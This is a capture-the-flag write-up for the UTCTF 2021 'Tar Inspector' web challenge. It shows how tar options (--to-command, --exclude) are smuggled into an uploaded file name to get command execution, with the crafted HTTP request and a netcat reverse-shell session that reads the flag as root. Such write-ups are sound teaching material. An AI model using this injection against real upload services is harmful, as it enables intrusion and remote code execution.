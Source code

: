 ```yaml
---
layout: post
title: "UTCTF 2021 Tar Inspector Write Up"
date: 2021-03-14 23:29:53
description: This article is about write-up for the UTCTF 2021. there is only one web challenge, which contain Command Injection bug
imgurl: https://ctftime.org/media/cache/dd/07/dd071f568feb17dcd1e256fc645cd535.png
excerpt: TR;DL > Remote Code Excution
---
```

### (Web) Tar Inspector [994 pts]

> Tar Inspector challenge is get the shell using RCE and read the flag

Many people asked for a hint and the contest provided the code for the secure_filename() function. So first, I'll see `secure_filename()`.

```python
# creates a secured version of the filename
def secure_filename(filename):
    # strip extension and any sneaky path traversal stuff
    filename = filename[:-4]
    filename = os.path.basename(filename)
    # escape shell metacharacters
    filename = re.sub("(!|\$|#|&|\"|\'|\(|\)|\||<|>|`|\\\|;)", r"\\\1", filename)
    filename = re.sub("\n", "", filename)
    # add extension
    filename += '__'+hex(randrange(10000000))[2:]+'.tar'
    return filename
```
You can see that the secure_filename() function gets the file name excluding the extension, escapes all special characters, and creates a new file name by including a random value between the file names.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/1.png?raw=true)

Go into the challenge and you can will see the file upload function.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/2.png?raw=true)

If you upload any file, you can see that only the `.tar` extension can be uploaded. Probably I need to make RCE happen when i unpack the tar file. When unpack the tar file, I can execute file `using --to-command` option :)

- Scenario

1. I compress the reverse shell code to tar file and I upload in server.
2. If you upload the tar file, you can see the newly created file name.
3. If you upload the created file again by name, it will be unpack and the file will be executed. Obviously, you need to add the `--to-command` option at this time.
4. And since the last in the file must be `.tar`, you can bypass it using the `--exclude` option.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/3.png?raw=true)

After uploading the tar file, you can see a file named `pocas__bf9d0.tar` was created :) Now, When you unpack the `pocas__bf9d0.tar` file, you can execute the reverse shell file.

```
POST /upload HTTP/1.1
Host: web2.utctf.live:8123
Content-Length: 1566
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytCvRhaPJjhVCXGrN
Connection: close

------WebKitFormBoundarytCvRhaPJjhVCXGrN
Content-Disposition: form-data; name="file"; filename="pocas__bf9d0.tar --to-command=python3${IFS}pocas.py --exclude=pocas.tar"
Content-Type: application/x-tar


------WebKitFormBoundarytCvRhaPJjhVCXGrN--

```
I used the `--to-command`/`--exclude` option as above.

```
root@py:~# nc -lp 80
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/tmp/extracts
# cat /flag.txt
utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}
#
```
You can see that it is unpacked, and the file is executed to get the shell :)

```plaintext
FLAG : utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}
```
 